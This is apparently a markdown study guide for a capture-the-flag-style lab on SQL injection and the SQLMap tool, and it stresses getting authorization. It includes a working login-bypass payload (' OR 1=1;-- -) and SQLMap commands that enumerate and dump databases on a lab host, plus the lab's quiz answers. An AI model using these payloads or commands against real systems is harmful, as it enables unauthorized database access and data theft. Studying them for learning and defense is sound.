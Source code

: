 ## SQLMap

### Overview

SQL injection (SQLi) is a common and dangerous web vulnerability where unsanitized user input alters SQL queries executed by the back-end DBMS. SQLMap is an automated, command-line tool that helps detect and exploit SQLi vulnerabilities across many DBMS types (MySQL, PostgreSQL, MSSQL, SQLite, etc.).

> **Note:** Only test systems you own or have explicit permission to test.

---

### What is a database and how web apps use it

* A **database** stores structured application data (users, products, posts).
* Web apps interact with DBMSs via **SQL** queries (e.g., `SELECT`, `INSERT`).
* Input fields (login, search) often form parts of those SQL queries — if unvalidated, they can be manipulated.

---

### Simple login example (conceptual)

Original safe query (example):

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';
```

Attacker input (injection):

```
Password: abc' OR 1=1;-- -
```

Resulting query becomes:

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';
```

Because `OR 1=1` is always true, the WHERE clause can evaluate as true and bypass authentication.

---

### Types of SQLi (brief)

* **Boolean-based (blind)** — infer data using true/false responses.
* **Time-based (blind)** — infer data by causing DB delays (e.g., `SLEEP()`).
* **Error-based** — force DB errors that leak data.
* **UNION-based** — inject `UNION SELECT` to retrieve results.

---

### SQLMap: Quick introduction

* Run `sqlmap --help` to see flags.
* For guided usage, use the wizard: `sqlmap --wizard`.

Wizard example:

```bash
sqlmap --wizard
```

It will prompt for the full URL (`-u`) and guide through options.

---

### Common SQLMap workflow & flags

1. **Scan a GET URL:**

```bash
sqlmap -u "http://sqlmaptesting.thm/search/cat=1"
```

2. **Extract all databases:**

```bash
sqlmap -u "http://sqlmaptesting.thm/search/cat=1" --dbs
```

3. **List tables of a database:**

```bash
sqlmap -u "http://sqlmaptesting.thm/search/cat=1" -D users --tables
```

4. **Dump a specific table:**

```bash
sqlmap -u "http://sqlmaptesting.thm/search/cat=1" -D users -T thomas --dump
```

5. **Use an intercepted POST request saved to a file:**

```bash
sqlmap -r intercepted_request.txt
```

---

### Interpreting SQLMap output (high-level)

* SQLMap reports **injection point(s)** and **payloads** used; e.g., boolean-based, error-based, time-based, UNION.
* It will often identify the **back-end DBMS** (e.g., `MySQL >= 5.1`), web server OS, and web technologies.
* After identifying injection, use `--dbs`, `-D`, `--tables`, and `--dump` to enumerate.

---

### Example (condensed output style)

```
Parameter: cat (GET)
  Type: boolean-based blind
  Payload: cat=1 AND 2175=2175

Available databases [2]:
  * users
  * members
```

---

### Safety, ethics, and tips

* **Always** have explicit authorization to test a target.
* Use the `--level` and `--risk` flags to tune aggressiveness.
* Save sessions and resume scans with `--batch` or by using SQLMap's session files.
* Be mindful of rate limits and noisy payloads (WAF/IDS may flag you).

---

### Quick reference (cheat-sheet)

* Wizard: `sqlmap --wizard`
* Test URL: `sqlmap -u <url>`
* Databases: `--dbs`
* Tables: `-D <db> --tables`
* Dump rows: `-D <db> -T <table> --dump`
* Intercepted request: `-r <file>`

---

### Short Q&A (from room)

* **Which flag extracts all databases?** `--dbs`
* **Full command to extract all tables from `members` (vulnerable URL `http://sqlmaptesting.thm/search/cat=1`):**

```bash
sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables
```


